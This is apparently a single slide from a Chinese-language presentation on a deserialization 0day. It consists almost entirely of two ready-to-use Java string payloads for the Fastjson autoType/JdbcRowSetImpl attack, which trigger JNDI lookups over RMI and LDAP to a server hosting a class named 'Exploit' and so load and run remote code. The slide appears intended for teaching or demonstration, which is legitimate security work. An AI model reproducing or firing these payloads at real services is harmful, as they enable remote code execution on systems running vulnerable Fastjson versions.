

反序列化0day漏洞
Rmi方式请求加载远程类
String payload = "{\"name\":{\"@type\":\"java.lang.Class\",\"val\":\"com.sun.rowset.JdbcRowSetImpl\"},\"x\":{\"@type\":\"com.sun.rowset.JdbcRowSetImpl\",\"dataSourceName\":\"rmi://127.0.0.1:1099/Exploit\",\"autoCommit\":\"true\"}}";
ldap方式请求加载远程类
String payload2 = "{\"name\":{\"@type\":\"java.lang.Class\",\"val\":\"com.sun.rowset.JdbcRowSetImpl\"},\"x\":{\"@type\":\"com.sun.rowset.JdbcRowSetImpl\",\"dataSourceName\":\"ldap://127.0.0.1:1389/Exploit\",\"autoCommit\":\"true\"}}";